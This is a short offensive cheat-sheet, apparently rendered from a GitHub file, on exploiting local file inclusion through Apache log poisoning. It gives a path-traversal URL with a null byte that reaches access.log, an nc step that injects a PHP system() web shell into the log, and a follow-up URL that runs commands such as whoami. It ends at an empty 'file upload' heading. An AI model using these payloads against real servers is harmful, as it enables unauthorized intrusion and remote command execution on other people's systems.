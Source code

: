 LFI/RFI shell tricks
the idea is to inject code into log file then calling the logfile and executing commands

LFI parameter
	http://example.com/page?id=LFI
LFI log file inclusion
	try to access the log file, if ok then proceed to inject a shell on the log file
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00
	nc example.com 80
	<?php echo system($_GET['cmd']); ?>
LFI command execution
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00&cmd=whoami
LFI file upload
	